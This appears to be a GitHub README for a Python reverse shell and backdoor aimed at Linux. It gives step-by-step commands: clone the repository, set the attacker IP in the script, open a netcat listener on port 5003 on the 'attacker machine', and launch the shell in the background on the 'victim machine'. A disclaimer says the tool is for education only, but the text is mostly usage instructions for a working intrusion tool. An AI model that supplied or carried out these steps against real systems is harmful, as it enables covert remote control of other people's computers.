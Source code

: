 # ReverseShell | Written In ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- or use the silentHill listener:
```
python3 silentHill.py
```
- On the vivtim machine:
```
python3 reverseshell.py &
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- With great force follows great responsibility.


